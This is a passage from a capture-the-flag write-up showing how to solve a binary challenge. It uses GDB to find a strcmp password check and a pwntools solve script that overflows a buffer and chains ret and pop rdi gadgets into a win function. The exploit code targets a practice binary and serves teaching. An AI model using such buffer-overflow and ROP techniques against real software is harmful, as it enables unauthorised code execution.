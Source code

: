At `0x40171b`, we call this function, and if it returns a 0, then we continue; anything else and it's an incorrect password. If you've ever programmed in C, you can tell that this behaves as `strcmp` would. Now, there are two ways you can go about this: either you can read the assembly from the listing view within Ghidra to see that the parameter it's compared against is loaded into the RDI register, or you can set a breakpoint in GDB at that call to see what the program is doing.

Let's try the GDB method by converting our `process('./chall')` call to `gdb.debug('./chall', 'b *0x40171b')`. GEF quickly makes light work for us by telling us what the arguments are for this function call:

```
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── arguments (guessed) ────
0x4010a0 (
   $rdi = 0x00000000004a9190 → 0x0000000000000000,
   $rsi = 0x000000000047a008 → "sluggggggggggggggggggsecure_umm_yeah_i_sure_hope_i[...]",
   $rdx = 0x000000000047a008 → "sluggggggggggggggggggsecure_umm_yeah_i_sure_hope_i[...]"
)
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "chall", stopped 0x40171b in ?? (), reason: BREAKPOINT
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x40171b → call 0x4010a0
[#1] 0x401700 → mov QWORD PTR [rbp-0x118], rdi
```

As you can see, our RDI is empty because we never passed in an argument to the function. So let's do that.

### Passing In A Password
The way we want to do this is by popping a value into RDI (we pop things to registers using "pop" gadgets, which are assembly instructions that load values from the stack into registers). First, we need to find a `pop rdi` gadget in our binary to help set up our function call. We also want to `ret` so we maintain proper stack alignment. There are a few ways we can do this, but since we're already using pwnlib, we can just use the integrated ROP library, just like we did in the Simple Win challenge. Then pass in our password!

Here's our solve script so far:

```py
$ cat solve.py 
from pwn import *

p = gdb.debug('./chall', 'b *0x40171b') # strcmp within win func
elf = ELF('./chall')
rop = ROP(elf)

payload = b'A' * 88 # offset to control rsp, found using cyclic pattern
payload += p64(rop.find_gadget(['ret'])[0]) # align stack
payload += p64(rop.find_gadget(['pop rdi', 'ret'])[0]) # pop arg into rdi since thats what strcmp is checking against
payload += b'sluggggggggggggggggggsecure_umm_yeah_i_sure_hope_it_is'
payload += p64(0x4016f5)

p.sendlineafter('> ', payload)
print(p.recvall().decode())
```
